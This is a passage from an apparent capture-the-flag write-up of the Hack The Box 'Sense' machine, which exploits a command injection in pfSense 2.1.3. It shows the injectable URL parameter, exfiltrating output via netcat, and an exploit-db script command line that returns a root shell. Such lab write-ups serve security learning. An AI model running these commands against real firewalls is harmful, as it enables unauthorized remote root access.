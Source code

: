 A lot of information pops out on the screen. The most important one is the version.
```
Version 	2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
Unable to check for updates.
```

Knowing the version (**2.1.3**), we can openly search for vulnerabilities. By doing some simple google searching, I was able to find that this particular version is vulnerable to a remote command execution exploit. You can read more about it [here](https://packetstormsecurity.com/files/145575/pfSense-2.1.3-RELEASE-amd64-Remote-Command-Execution.html){:target="_blank"}. 

***

# Exploitation
There are multiple approaches for exploiting this machine. Let's go through them one by one.

### - Manual
The report discloses that database GET parameter is vulnerable to an injection. Therefore `https://10.10.10.60/status_rrd_graph_img.php?&database=queues;<INJECTION>` will allow us to run any command on the system. There's one problem though. There is no way of seeing stdout! Simple fix can achieved by piping every injection through netcat and then listening for the server's reply on our machine.

<a href="/img/blog/htb-sense/htb-sense-06.png" target="_blank"><img class="centerImgHuge" src="/img/blog/htb-sense/htb-sense-06.png"></a>

Ippsec does a lot better & more detailed job of explaining this than I ever could, so props to him. He goes over multiple important things such as evading bad characters and pivoting through another machine in case pfSense blocks you. I highly advise you watch his [video](https://www.youtube.com/watch?v=d2nVDoVr0jE){:target="_blank"}! The injection part starts at around **17:30**.

### - Using exploitdb python script
The script can be located [here](https://www.exploit-db.com/exploits/43560/){:target="_blank"}.
```console
usage: exploit.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT]
                  [--username USERNAME] [--password PASSWORD]
```

And therefore running `python3 exploit.py --rhost 10.10.10.60 --lhost 10.10.14.73 --lport 1234 --username rohit --password pfsense` should return us a root shell!
